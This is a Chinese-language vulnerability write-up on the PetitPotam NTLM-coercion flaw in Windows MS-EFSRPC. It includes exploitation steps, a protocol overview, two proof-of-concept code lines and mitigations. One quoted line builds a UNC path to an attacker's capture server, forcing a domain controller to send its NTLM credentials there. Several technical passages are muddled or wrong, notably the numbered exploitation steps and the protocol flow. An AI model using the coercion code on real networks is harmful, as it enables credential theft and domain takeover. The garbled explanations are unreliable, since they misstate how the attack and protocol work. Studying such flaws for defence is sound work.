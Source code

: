 漏洞描述
----

PetitPotam 漏洞（CVE-2021-36942）是一个 Windows 远程协议（MS-EFSRPC）中的安全漏洞，它影响了微软的加密文件系统（EFS）。这个漏洞允许攻击者将目标服务器引导至攻击者控制的服务器，从而可能导致目标服务器的凭据泄露。这个漏洞主要影响了 Windows Server 系列操作系统。

PetitPotam 漏洞的主要原因是在 MS-EFSRPC 服务中，攻击者可以利用某些 EFS 函数，例如 EfsRpcOpenFileRaw。这个函数原本用于打开一个加密的文件以进行读写操作。但是，攻击者可以通过构造恶意的文件路径，使得目标服务器尝试与攻击者控制的服务器建立连接。在这种情况下，攻击者可以捕获目标服务器的 NTLM 凭据，甚至可能实施更进一步的攻击，例如传递哈希攻击（Pass-the-Hash）或利用其他漏洞进行横向移动。

PetitPotam 漏洞利用过程
-----------------

PetitPotam漏洞是一个Windows认证协议的安全漏洞，攻击者可以利用该漏洞通过远程程序调用（RPC）来获取域控制器（DC）NTLMv2身份验证的凭据，从而能够进一步获取域管理员权限。下面是利用PetitPotam漏洞的一般过程：

1. 攻击者需要访问域控制器上的有效账户，例如域用户帐户。
2. 攻击者向域控制器发送RPC请求，并伪造为受信任的计算机，使用NTLMv2身份验证协议。
3. 域控制器接收到请求并响应。
4. 攻击者在响应中包含了一个名称为“MS-EFSRPC EfsRpcOpenFileRaw”的RPC操作，并在“ObjectUuid”字段中设置为“367abb81-9844-35f1-ad32-98f038001003”，这个UUID是NTLMSSP服务的UUID。
5. 域控制器接收到此请求并验证RPC操作。
6. 域控制器尝试将攻击者提供的证书应用到MS-EFSRPC操作上，并在此过程中生成NTLMv2凭据，并返回给攻击者。
7. 攻击者获取NTLMv2凭据并进行破解或传递给其他工具，以获得域管理员权限。

需要注意的是，PetitPotam漏洞仅影响使用NTLMv2身份验证协议的Windows认证协议。

MS-EFSRPC协议
-----------

### 协议概述

MS-EFSRPC（Encrypting File System Remote Protocol）是Windows操作系统中的一种加密文件系统协议。它提供了一种安全的方式来保护文件和文件夹，以确保只有授权用户能够访问。MS-EFSRPC协议在Windows Server 2003和Windows XP中首次引入，目前已经得到广泛的应用。

MS-EFSRPC协议基于RPC（Remote Procedure Call）协议，主要用于对加密文件系统的访问进行控制和管理。它定义了一组远程过程调用（RPC）接口，用于在客户端和服务器之间传输加密密钥和访问权限信息，以及对加密文件的加密和解密操作。

MS-EFSRPC协议包括以下几个主要部分：

- EfsRpcOpenFileRaw、EfsRpcReadFileRaw、EfsRpcWriteFileRaw等RPC接口，用于在客户端和服务器之间进行文件的打开、读取、写入等操作。
- EfsRpcAddUsers、EfsRpcRemoveUsers、EfsRpcQueryUsers等RPC接口，用于管理加密文件的访问授权。
- EfsRpcGetUserInfo、EfsRpcSetUserInfo等RPC接口，用于获取和设置用户的加密密钥。
- EfsRpcEncryptFile、EfsRpcDecryptFile等RPC接口，用于对加密文件进行加密和解密操作。

### MS-EFSRPC协议交互过程

1. 客户端应用程序通过调用MS-RPC协议的RpcBindingFromStringBinding()函数，将服务器的字符串绑定转换为一个包含了服务器名称和传输协议的客户端绑定句柄。
2. 客户端应用程序使用RpcBindingSetAuthInfoEx()函数设置连接到服务器的安全凭据和权限级别。
3. 客户端应用程序使用MS-EFSRPC协议的EfsRpcOpenFileRaw()函数向服务器发送一个请求，请求打开一个加密文件。
4. 服务器接收到请求后，验证客户端的身份和权限，并打开请求的文件。
5. 如果文件已加密，则服务器使用EFSRPC协议的EfsRpcEncryptFile()函数对文件进行加密。如果文件未加密，则服务器使用EFSRPC协议的EfsRpcDecryptFile()函数对文件进行解密。
6. 当文件的操作完成后，服务器使用EFSRPC协议的EfsRpcClose()函数关闭文件。
7. 客户端应用程序使用MS-RPC协议的RpcBindingFree()函数释放绑定句柄。

漏洞分析
----

该漏洞的利用过程中，攻击者可以通过向目标计算机发起 EFSRPC（Encrypting File System Remote Protocol）请求来实现攻击，EFSRPC 是 Windows 系统中的一个加密文件系统协议，用于提供加密文件的远程存取。在正常情况下，EFSRPC 通信需要使用有效的身份验证，例如 Kerberos、NTLMv2 或 SSL/TLS。而在 PetitPotam 漏洞中，攻击者可以构造一个恶意的 EFSRPC 请求，使其使用 NTLMv2 身份验证，并将目标计算机作为 NTLM 代理，从而将 NTLM 认证流量重定向到攻击者控制的恶意服务器。

攻击者会发送一个特殊的EFSRPC请求，其中包含目标服务器的计算机名，连接到服务器的安全凭据和权限级别。

```php
 RpcStatus \= RpcBindingSetAuthInfoW(BindingHandle, (RPC\_WSTR)target, RPC\_C\_AUTHN\_LEVEL\_PKT\_PRIVACY, RPC\_C\_AUTHN\_GSS\_NEGOTIATE, NULL, RPC\_C\_AUTHZ\_NONE);
```

- 目标服务器的名称（target，命令行输入的目标）
- 身份验证级别（RPC\_C\_AUTHN\_LEVEL\_PKT\_PRIVACY，指定使用加密的 RPC 数据包）、
- 身份验证服务（RPC\_C\_AUTHN\_GSS\_NEGOTIATE，表示采用 GSS-API 进行身份验证）
- 授权服务（RPC\_C\_AUTHZ\_NONE，表示未启用授权）

以及制定攻击者控制的服务器的计算机名。

```php
 swprintf(buffer, 100, L"\\\\\\\\%s\\\\test\\\\topotam.exe", captureServerIP);
```

攻击者伪装成目标服务器并向服务端发送NTLM身份验证请求，服务端则将其凭据发送到攻击者控制的服务器上。

攻击者可以利用这种重定向的 NTLM 认证流量来获取目标域控制器的 NTLM hash 值，从而能够进一步利用 NTLM hash 脱机攻击技术来获取域管理员权限。

缓解措施
----

为了缓解这个漏洞，微软建议采取以下措施：

1. 应用相关的安全更新：微软针对此漏洞发布了安全更新，用户应确保已经安装了这些更新以保护系统。
2. 禁用 NTLM：在受影响的系统上禁用 NTLM，这样攻击者就不能捕获 NTLM 凭据。
3. 阻止公开的 MS-EFSRPC 服务：使用防火墙规则限制 MS-EFSRPC 服务的访问，以阻止潜在攻击者尝试利用此漏洞。
4. 监控异常活动：密切关注网络中可能存在的异常活动，以便及时发现和响应任何潜在攻击。